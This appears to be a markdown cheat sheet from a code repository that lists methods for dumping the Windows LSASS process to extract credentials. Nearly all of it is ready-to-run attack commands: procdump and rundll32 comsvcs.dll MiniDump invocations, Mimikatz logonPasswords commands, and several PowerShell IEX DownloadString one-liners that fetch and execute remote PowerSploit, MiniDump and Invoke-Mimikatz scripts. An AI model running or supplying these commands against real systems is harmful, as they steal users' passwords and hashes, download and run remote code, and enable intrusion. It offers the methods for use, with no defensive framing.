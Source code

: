 # Methods to Dump LSASS
Craft a comprehensive guide detailing various methods for dumping the LSASS.<br>
I think This will be a valuable one and will make people stay updated on new techniques.
## 1. Procdump:
Procdump is a part of Microsoft Sysinternals and a command-line<br>utility programs for producing dumps of any running process<br>
We can leverage it and use it fo DUMP lsass process by the following:<br>
<code>procdump.exe -ma lsass.exe C:\path\lsass.dmp</code>

## 2. Mimikatz:
Mimikatz can both dump the LSASS process and read from an LSASS dump:<br>
<code>privilege::debug = Debugging Mode
sekurlsa::logonPasswords = Dump passwords
</code>

* To Read from an LSASS dump:<br>
<code>sekurlsa::minidump C:\path\lsass.dmp
sekurlsa::logonpasswords</code>

## 3. Rundll32
This is a native Windows utility method which can we can use:<br>
<code>rundll32.exe C:\Windows\System32\comsvcs.dll, MiniDump <LSASS_Process_ID> C:\path</code><br>
for getting lsass process ID, you can RUN "Get-Process lsass" on powershell.
* User can also done this by making a PS script containing the following:<br>
<code>$lsass = Get-Process lsass
$dumpPath = "C:\Users\Adwin2\Desktop\lsass.dmp"
rundll32.exe C:\Windows\System32\comsvcs.dll, MiniDump $($lsass.Id) $dumpPath full</code><br><br>
<b>Note</b>: Change $dumpPath

## 4. PowerSploit's Out-Minidump:
Ensure the Out-Minidump function is loaded in your PowerShell session<br>
<code>IEX (New-Object Net.WebClient).DownloadString('https://github.com/PowerShellMafia/PowerSploit/raw/master/Exfiltration/Out-Minidump.ps1')"
Get-Process lsass | Out-Minidump -DumpFilePath C:\Path\To\Dump
</code>

#### 4.4 - Using 'MiniDump' to dump lsass into C:\Windows\Tasks:
<code>
IEX (New-Object Net.WebClient).DownloadString('https://github.com/chvancooten/OSEP-Code-Snippets/raw/main/MiniDump/MiniDump.ps1')
Reults will be save on C:\Windows\Tasks.
</code>

##  5. Using Invoke-Mimikatz from the GitHub Repository:
Download & Import the Script:
First, you need to get the Invoke-Mimikatz.ps1 script from the GitHub repository.
If you're working directly on the machine:
<code>IEX (New-Object Net.WebClient).DownloadString('https://github.com/g4uss47/Invoke-Mimikatz/raw/master/Invoke-Mimikatz.ps1')</code><br>

Invoke Mimikatz to Dump LSASS:<br>
Once the module is imported, you can run Invoke-Mimikatz to dump the LSASS</br>

<code>Invoke-Mimikatz -Command '"privilege::debug" "sekurlsa::logonPasswords"'</code><br>
* You can also using minidump module to select where to read:<br>
<code>Invoke-Mimikatz -Command '"privilege::debug" "sekurlsa::minidump C:\Path\To\Load\Lsass"'</code>
